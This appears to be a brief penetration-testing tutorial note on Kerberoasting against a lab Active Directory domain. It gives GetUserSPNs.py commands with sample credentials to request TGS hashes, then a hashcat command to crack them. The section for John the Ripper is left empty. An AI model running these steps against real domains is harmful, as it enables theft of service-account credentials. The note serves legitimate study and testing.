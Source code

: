 
## **Usage**


```powershell
# Grabing the TGS hash
# -dc-ip : domain controller IP address
# -request : request for TGS hash
# sudo GetUsersSPNs.py <Domain/Username:Password> -dc-ip <IP of DC> -request
$ sudo GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip 192.168.0.149  -request
```


#### **Example**

![](https://i.imgur.com/RaJyFv0.png)


## **Cracking the TGS hash**

- Save the TGS hash in a `.txt` file and then we can crack it with either **hashcat** or **johntheripper**

```powershell
# cracking with hashcat
$ hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt -O

# cracking with johntheripper

```